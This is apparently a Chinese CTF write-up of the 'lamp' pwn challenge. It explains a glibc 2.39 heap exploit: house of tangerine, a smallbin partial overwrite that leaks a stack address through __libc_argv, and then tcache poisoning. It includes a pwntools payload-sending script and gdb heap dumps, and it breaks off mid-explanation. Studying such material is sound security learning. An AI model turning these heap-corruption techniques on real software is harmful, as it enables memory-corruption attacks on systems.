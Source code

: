 # lamp

我觉得是时候该接受我这辈子都学不会ctf的事实了，从pwn开始

参考wp： https://jonathankeller.net/ctf/lamp

题目设置：
- 可以分配任意个大小在0-0xff之间的chunk
- 每个chunk在分配到手后有任意大小的overflow，但这也是唯一一次可以（直接）往该chunk里写东西的机会
- 无free
- 无文件流（file streams），于是不能用fsop
- libc 2.39

第一步肯定是用喜闻乐见的house of tangerine free掉top chunk，从而利用bins的结构来实现一些攻击。wp提供了稳定实施house of tangerine的函数。偷了，下一步

第二步是尝试使分配器返回堆地址，因为2.39里栈上的rop算是最直接的rce方式。smallbins其实是个环形的双向链表结构，而头指针（head pointer）在libc里。意味着启用smallbin后，堆上会有一个指向libc的指针；加上有溢出的漏洞，可以做个partial overwrite，使那个libc指针指向`__libc_argv`（内含栈地址）。再修改一个smallbin使其指向包含libc指针的smallbin，最后分配时就能连着把栈地址也拿出来了

不过堆分配器拿smallbin时不是一个一个拿的，而是当tcache耗尽后，一次性拿出足够填满tcache的堆块。于是要注意smallbins的数量要正好，正好卡在tcache准备拿到损坏的chunk之前。这样还不够，想要这么做需要确保argv和environ里有正确的设置，因为smallbins会在不同的地方检查指针。这题正好提供了一个run文件来保证配置正确

好了欢迎来到噩梦堆风水。光看wp根本看不懂，以下是一些补充
```py
#每个pause处对应下方的一个layout
    print("fake", hex(fake_bins))
    print("target", hex(target_bin))
    print("start", hex(start_bin))

    gdb.attach(p)
    pause()
    p.send(b"58")
    BINS = 0
    for i in range(BINS):
        # This ended up being unused, it was here to help control the length
        # of the list of smallbins leading to the bin we wanted to overwrite
        p.send(p64(fake_bins + (i+1)*0x20)) # dummy
        p.send(p64(fake_bins + (i+1)*0x20)) # dummy
        p.send(p64(fake_bins + (i+1)*0x20)) # fd
        p.send(p64(fake_bins + (i+1)*0x20)) # bk

    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(b"X" * (target_bin - fake_bins - BINS*0x20 - 0x18))
    p.send(b"\x00" * 16)
    p.send(b"\xc8\x46\n")
    pause()
    p.send(b"30")
    p.send(b"Y" * (start_bin - start_overwrite_from))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(b"\n")
    pause()
    # Pop the tcache entries.
    for i in range(7):
        p.send(b"58\n")

    # Pop a smallbin entry, causing malloc to move entries from the smallbin to the tcache
    p.send(b"58\n")
    pause()
```
```
fake 0x5c8150256f90
target 0x5c8150278f78
start 0x5c8150366f90
```
这三个值还挺重要的
```sh
#第二步开始前的布局
tcachebins
0x20 [  1]: 0x5c815018b2a0 ◂— 0
0x40 [  3]: 0x5c8150344fb0 —▸ 0x5c8150322fb0 —▸ 0x5c8150300fb0 ◂— 0
0x60 [  7]: 0x5c8150256f90 —▸ 0x5c8150234f90 —▸ 0x5c8150212f90 —▸ 0x5c81501f0f90 —▸ 0x5c81501cef90 —▸ 0x5c81501acf90 —▸ 0x5c815018bf90 ◂— 0
fastbins
0x60: 0x5c81503aaf80 ◂— 0
unsortedbin
empty
smallbins
0x60: 0x5c8150388f80 —▸ 0x5c8150366f80 —▸ 0x5c81502def80 —▸ 0x5c81502bcf80 —▸ 0x5c815029af80 —▸ 0x5c8150278f80 —▸ 0x7bdd81c03b70 ◂— 0x5c8150388f80
```
请记住这一切正常的样子（
```sh
#X溢出后的布局
tcachebins
0x20 [  1]: 0x5c815018b2a0 ◂— 0
0x40 [  3]: 0x5c8150344fb0 —▸ 0x5c8150322fb0 —▸ 0x5c8150300fb0 ◂— 0
0x60 [  6]: 0x5c8150234f90 —▸ 0x5c8150212f90 —▸ 0x5c81501f0f90 —▸ 0x5c81501cef90 —▸ 0x5c81501acf90 —▸ 0x5c815018bf90 ◂— 0
fastbins
0x60: 0x5c81503aaf80 ◂— 0
unsortedbin
empty
smallbins
0x60 [corrupted]
FD: 0x5c8150388f80 —▸ 0x5c8150366f80 —▸ 0x5c81502def80 —▸ 0x5c81502bcf80 —▸ 0x5c815029af80
 —▸ 0x5c8150278f80 —▸ 0x7bdd81c046c8 ◂— 0
BK: 0x5c8150278f80 —▸ 0x5c815029af80 —▸ 0x5c81502bcf80 —▸ 0x5c81502def80 —▸ 0x5c8150366f80
 ◂— ...
```
这一步还好理解，作用是修改原本的libc指针，使其指向`__libc_argv`
```sh
#Y溢出后的布局
tcachebins
0x20 [  1]: 0x5c815018b2a0 ◂— 0
0x40 [  2]: 0x5c8150322fb0 —▸ 0x5c8150300fb0 ◂— 0
0x60 [  6]: 0x5c8150234f90 —▸ 0x5c8150212f90 —▸ 0x5c81501f0f90 —▸ 0x5c81501cef90 —▸ 0x5c81501acf90 —▸ 0x5c815018bf90 ◂— 0
fastbins
0x60: 0x5c81503aaf80 ◂— 0
unsortedbin
empty
smallbins
0x60 [corrupted]
FD: 0x5c8150388f80 —▸ 0x5c8150366f80 —▸ 0x5c8150278f78 ◂— 0
BK: 0x5c8150278f80 —▸ 0x5c815029af80 —▸ 0x5c81502bcf80 —▸ 0x5c81502def80 —▸ 0x5c8150366f80
 ◂— ...
```
从这一步开始要留个心眼了。smallbin和tcache管理堆块的方式不同。smallbin中的堆块地址指向堆块的header部分；而tcache则是指向数据（fd）。所以如果想要修改`0x5c8150366f80`的fd，得溢出到`0x5c8150366f90`。这里我们将chunk start（`0x5c8150366f90`）的fd覆盖成了chunk target（`0x5c8150278f78`）。`0x5c8150278f78`其实就是原本fd包含libc地址的chunk地址（位于`0x5c8150278f80`）减8，原因在于后续从smallbin拿chunk填充tcache时走的是bk链，所以我们需要使libc地址位于bk处，而不是原本的fd
```sh
#清空tcache后的布局
tcachebins
0x20 [  1]: 0x5c815018b2a0 ◂— 0
0x40 [  2]: 0x5c8150322fb0 —▸ 0x5c8150300fb0 ◂— 0
0x60 [  7]: 0x7fffad926878 —▸ 0x7bdd81c046d8 —▸ 0x5c8150278f88 —▸ 0x5c8150366f90 —▸ 0x5c81502def90 —▸ 0x5c81502bcf90 —▸ 0x5c815029af90 ◂— 0
fastbins
empty
unsortedbin
empty
smallbins
0x60 [corrupted]
FD: 0x5c8150388f80 —▸ 0x5c8150366f80 ◂— 0x5c849838ecf6
BK: 0x7fffad926fd1 ◂— 0x706d616c2f2e11
```
smallbins进tcache的顺序是倒着来的。不过我不确定为什么从`0x5c815029af80`开始。末尾的`0x5c8150278f80`倒着走一直走到`0x5c8150366f80`，下一个是`0x5c8150278f88`。由于错位，bk处正好是libc地址；再下一个正好是栈地址。此时正正好好7个填满tcache，程序不会崩溃

目前tcache里有了个栈地址。可是我们不知道任何地址，写也不知道写什么；而且只有一个地址，想要leak再写也至少要两个地址；再者，目前的地址指向程序的参数和环境变量，离栈底部非常远

第二个问题还是很好解决的。tcache+溢出，明显的tcache poisoning。可以将`tcache[40]->next`覆盖成tcache_entry(tcache_perthread_struct)；此时`malloc(0x38)`就能覆盖tcache结构